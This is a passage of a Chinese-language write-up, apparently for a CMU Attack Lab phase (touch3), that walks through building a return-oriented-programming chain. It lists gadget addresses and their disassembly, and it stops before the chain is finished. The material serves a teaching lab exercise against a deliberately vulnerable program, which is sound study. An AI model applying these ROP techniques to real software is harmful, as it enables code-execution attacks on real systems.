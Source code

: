 3.lea (%rdi,%rsi,1),%rax,将字符串的首地址传送到%rax, 再传送到%rdi

4.call touch3



获取rsp然后给到rax再把rax传到rdi完成第一步

```
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
```

```
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

movq %rsp, %rax 0x401a06

movq %rax, %rdi  0x4019a2

接着把偏移pop到rax

```
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
```

popq %rax 0x4019cc

接着将eax传到edx

```bash
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3  
```

movl %eax, %edx  0x4019dd



把edx给ecx

```bash
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3  
```

movl %edx, %ecx  0x401a70

把ecx给esi

```xml
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
```
